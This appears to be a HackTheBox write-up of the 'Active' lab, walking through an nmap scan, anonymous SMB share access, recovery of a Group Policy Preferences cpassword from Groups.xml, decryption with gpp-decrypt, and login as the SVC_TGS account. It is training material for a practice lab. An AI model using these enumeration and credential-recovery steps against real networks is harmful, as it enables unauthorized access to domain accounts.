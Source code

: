 #easy #SMB 

[**Active**](https://app.hackthebox.com/machines/Active) is an #easy HackTheBox Lab featuring #SMB .

Today, we'll attempt to capture the user flag. 

Lets dig in and hack this thing.

---
## Discovery 

As per usual, we begin by conducting a network scan of the host machine.

	sudo nmap -sC -sV 10.10.10.100

Below is a summary of the ports [[nmap]] found to be open. 

	PORT      STATE SERVICE       VERSION
	53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
	88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-20 00:28:52Z)
	135/tcp   open  msrpc         Microsoft Windows RPC
	139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
	389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
	445/tcp   open  microsoft-ds?
	464/tcp   open  kpasswd5?
	593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	636/tcp   open  tcpwrapped
	3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
	3269/tcp  open  tcpwrapped
	49152/tcp open  msrpc         Microsoft Windows RPC
	49153/tcp open  msrpc         Microsoft Windows RPC
	49154/tcp open  msrpc         Microsoft Windows RPC
	49155/tcp open  msrpc         Microsoft Windows RPC
	49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	49158/tcp open  msrpc         Microsoft Windows RPC
	49165/tcp open  msrpc         Microsoft Windows RPC
	Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

## Analysis

It appears that the target is running **Windows Server 2008**. But how are we supposed to interface with the server? 

Firstly, SSH is configured to use port 22, which appears to be closed.

What about [[Server Message Block (SMB)|SMB?]]

Well, a quick Google search tells us that [[Server Message Block (SMB)|SMB]] is typically configured to run on ports 139 and 445; both of which are open on the target machine. Lets see if the Server allows for an Anonymous login. But first, lets enumerate through all the shares on the machine using [[smbclient|smbclient:]]

	smbclient -L  \\\\10.10.10.100

The command results in the following output:

    Sharename       Type      Comment
    ---------       ----      -------
	ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share 
    Replication     Disk      
    SYSVOL          Disk      Logon server share 
    Users           Disk      

Now lets try to login to each share.

	smbclient \\\\10.10.10.100\\ADMIN$

Of course, this doesn't work. That would've been too easy:

	tree connect failed: NT_STATUS_ACCESS_DENIED

After attempting to login with each sharename, we successfully login to the Replication share:

	smbclient \\\\10.10.10.100\\Replication
	Anonymous login successful
	Try "help" to get a list of possible commands.
	smb: \> 

Typing 'ls', we list the contents of the share and stumble across this directory

	smb: \> ls
		.                                   D        0  Sat Jul 21 04:37:44 2018
		..                                  D        0  Sat Jul 21 04:37:44 2018
		active.htb                          D        0  Sat Jul 21 04:37:44 2018

You'll notice we can't change directories and browse the file-system like you would in a traditional shell. Instead, we'll download the 'active.htb' directory and all its contents from the server to our local machine. 

Firstly, we'll enable recurse, allowing for recursive downloading of all files from the directory. Next we'll disable prompts so we will not be asked to download every single file and folder present in the active.htb directory. Finally, we will initiate the download of the directory with mget.

	smb: \> recurse ON
	smb: \> PROMPT OFF
	smb: \> mget *

With the newly acquired 'active.htb' directory on our local machine, we browse the folders and files present, until a particular file catches our eye—*Groups.xml*. Lets check it out:

	└─$ cat Groups.xml 
	<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
	<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
	<Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
	</User>
	</Groups>

Hmm, very interesting indeed! It seems we have the name of a User on the 'Users' Share, and a password!

The User's username seems to be '**SVC_TGS**'.

	name="active.htb\SVC_TGS"

And below is the password belonging to '**SVC_TGS**'. The password appears to be hashed or encrypted using some sort of algorithm.

	cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUj
	TLfCuNH8pG5aSVYdYw/NglVmQ"

A quick Google Search of 'Groups.xml' mentions something called Group Policy Preferences or GPP. Further research indicates a vulnerability in GPP, allowing us to easily crack the hashed password using a tool called '**[[gpp-decrypt]]**'.

In an attempt to deobfuscate the password, we pass the password hash as an argument to **gpp-decrypt**, resulting in the following output.

		└─$ gpp-decrypt 
	edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8p
	G5aSVYdYw/NglVmQ

Well, what do you know? The password is: 

	GPPstillStandingStrong2k18

Now, lets perform a login on the Users share, using our newly acquired user-credentials. *(Hint: IT WORKS!)*

	smbclient \\\\10.10.10.100\\Users -U 'SVC_TGS'
	Password for [WORKGROUP\SVC_TGS]:
	Try "help" to get a list of possible commands.
	smb: \> 